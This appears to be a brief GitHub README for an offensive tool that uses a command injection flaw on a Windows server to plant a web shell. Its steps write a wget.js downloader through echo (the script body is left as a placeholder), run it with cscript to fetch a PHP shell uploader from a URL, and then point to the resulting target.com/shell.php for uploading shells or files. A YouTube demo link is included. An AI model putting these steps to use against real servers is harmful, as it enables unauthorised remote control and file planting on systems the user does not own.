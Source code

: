 # Windows Command injection Shell Uploader
Upload shell in windows server using command injection vulnerbility.

# Steps

* echo put wget.js file code here >weget.js
* cscript /nologo weget.js http://localhost/wci_shell_uploader.php

After those two commands your get shell uploader at http://target.com/shell.php go on this link & upload your shell or files. 
<a href="http://www.youtube.com/watch?feature=player_embedded&v=H5F93uEK7ME
" target="_blank"><img src="http://img.youtube.com/vi/H5F93uEK7ME/0.jpg" 
alt="IMAGE ALT TEXT HERE" width="240" height="180" border="10" /></a>
